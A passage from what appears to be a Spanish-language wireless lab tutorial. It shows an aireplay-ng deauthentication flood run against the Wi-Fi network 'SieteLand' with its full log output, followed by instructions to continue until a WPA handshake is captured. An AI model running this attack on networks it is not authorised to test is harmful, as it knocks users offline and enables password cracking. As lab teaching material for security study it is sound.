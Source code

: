   - Terminal 2.
  
  ```bash
  (kali㉿Hacknet)-[~/Escritorio/labWireless]
  Sie7e>$ sudo aireplay-ng  -0 0 -e SieteLand -c FF:FF:FF:FF:FF:FF wlan0
  [sudo] password for kali: 
  00:46:08  Waiting for beacon frame (ESSID: SieteLand) on channel 1
  Found BSSID "B4:1C:30:6C:03:E8" to given ESSID "SieteLand".
  00:46:09  Sending 64 directed DeAuth (code 7). STMAC: [FF:FF:FF:FF:FF:FF] [ 1|61 ACKs]
  00:46:10  Sending 64 directed DeAuth (code 7). STMAC: [FF:FF:FF:FF:FF:FF] [ 0|62 ACKs]
  00:46:10  Sending 64 directed DeAuth (code 7). STMAC: [FF:FF:FF:FF:FF:FF] [ 3|62 ACKs]
  00:46:11  Sending 64 directed DeAuth (code 7). STMAC: [FF:FF:FF:FF:FF:FF] [ 0|64 ACKs]
  00:46:11  Sending 64 directed DeAuth (code 7). STMAC: [FF:FF:FF:FF:FF:FF] [ 0|61 ACKs]
  00:46:12  Sending 64 directed DeAuth (code 7). STMAC: [FF:FF:FF:FF:FF:FF] [ 0|64 ACKs]
  00:46:13  Sending 64 directed DeAuth (code 7). STMAC: [FF:FF:FF:FF:FF:FF] [ 0|63 ACKs]
  00:46:13  Sending 64 directed DeAuth (code 7). STMAC: [FF:FF:FF:FF:FF:FF] [ 0|62 ACKs]
  00:46:14  Sending 64 directed DeAuth (code 7). STMAC: [FF:FF:FF:FF:FF:FF] [ 0|64 ACKs]
  00:46:15  Sending 64 directed DeAuth (code 7). STMAC: [FF:FF:FF:FF:FF:FF] [ 0|62 ACKs]
  00:46:15  Sending 64 directed DeAuth (code 7). STMAC: [FF:FF:FF:FF:FF:FF] [ 0|64 ACKs]
  00:46:16  Sending 64 directed DeAuth (code 7). STMAC: [FF:FF:FF:FF:FF:FF] [ 0|63 ACKs]
  00:46:17  Sending 64 directed DeAuth (code 7). STMAC: [FF:FF:FF:FF:FF:FF] [ 0|61 ACKs]
  00:46:17  Sending 64 directed DeAuth (code 7). STMAC: [FF:FF:FF:FF:FF:FF] [ 0|64 ACKs]
  00:46:18  Sending 64 directed DeAuth (code 7). STMAC: [FF:FF:FF:FF:FF:FF] [ 0|62 ACKs]
  00:46:18  Sending 64 directed DeAuth (code 7). STMAC: [FF:FF:FF:FF:FF:FF] [ 0|64 ACKs]
  00:46:19  Sending 64 directed DeAuth (code 7). STMAC: [FF:FF:FF:FF:FF:FF] [ 0|65 ACKs]
  00:46:20  Sending 64 directed DeAuth (code 7). STMAC: [FF:FF:FF:FF:FF:FF] [ 0|62 ACKs]
  00:46:20  Sending 64 directed DeAuth (code 7). STMAC: [FF:FF:FF:FF:FF:FF] [ 0|63 ACKs]
  00:46:21  Sending 64 directed DeAuth (code 7). STMAC: [FF:FF:FF:FF:FF:FF] [ 0|61 ACKs]
  00:46:22  Sending 64 directed DeAuth (code 7). STMAC: [FF:FF:FF:FF:FF:FF] [ 0|62 ACKs]
  00:46:22  Sending 64 directed DeAuth (code 7). STMAC: [FF:FF:FF:FF:FF:FF] [ 0|64 ACKs]
  00:46:23  Sending 64 directed DeAuth (code 7). STMAC: [FF:FF:FF:FF:FF:FF] [ 0|62 ACKs]
  00:46:24  Sending 64 directed DeAuth (code 7). STMAC: [FF:FF:FF:FF:FF:FF] [ 0|64 ACKs]
  00:46:24  Sending 64 directed DeAuth (code 7). STMAC: [FF:FF:FF:FF:FF:FF] [ 0|62 ACKs]
  00:46:25  Sending 64 directed DeAuth (code 7). STMAC: [FF:FF:FF:FF:FF:FF] [ 0|65 ACKs]
  00:46:26  Sending 64 directed DeAuth (code 7). STMAC: [FF:FF:FF:FF:FF:FF] [ 0|64 ACKs]
  00:46:26  Sending 64 directed DeAuth (code 7). STMAC: [FF:FF:FF:FF:FF:FF] [ 0|62 ACKs]
  00:46:27  Sending 64 directed DeAuth (code 7). STMAC: [FF:FF:FF:FF:FF:FF] [ 0|63 ACKs]
  00:46:27  Sending 64 directed DeAuth (code 7). STMAC: [FF:FF:FF:FF:FF:FF] [ 0|62 ACKs]
  00:46:28  Sending 64 directed DeAuth (code 7). STMAC: [FF:FF:FF:FF:FF:FF] [ 0|62 ACKs]
  00:46:29  Sending 64 directed DeAuth (code 7). STMAC: [FF:FF:FF:FF:FF:FF] [ 0|63 ACKs]
  00:46:29  Sending 64 directed DeAuth (code 7). STMAC: [FF:FF:FF:FF:FF:FF] [ 0|64 ACKs]
  00:46:30  Sending 64 directed DeAuth (code 7). STMAC: [FF:FF:FF:FF:FF:FF] [ 2|61 ACKs]
  00:46:31  Sending 64 directed DeAuth (code 7). STMAC: [FF:FF:FF:FF:FF:FF] [ 2|65 ACKs]
  00:46:31  Sending 64 directed DeAuth (code 7). STMAC: [FF:FF:FF:FF:FF:FF] [ 2|60 ACKs]
  00:46:32  Sending 64 directed DeAuth (code 7). STMAC: [FF:FF:FF:FF:FF:FF] [ 0|62 ACKs]
  00:46:32  Sending 64 directed DeAuth (code 7). STMAC: [FF:FF:FF:FF:^C:FF] [ 1| 8 ACKs]
  ```
  Tendremos ejecutando la segunda terminal hasta que el la primera nos ponga la siguiente:
  
  ```bash
  [ WPA handshake: FC:5A:1D:61:68:68]
  ```
  Esto nos indica que ya obtuvimos el handshake, y podemos detener el ataque de la segunda terminal
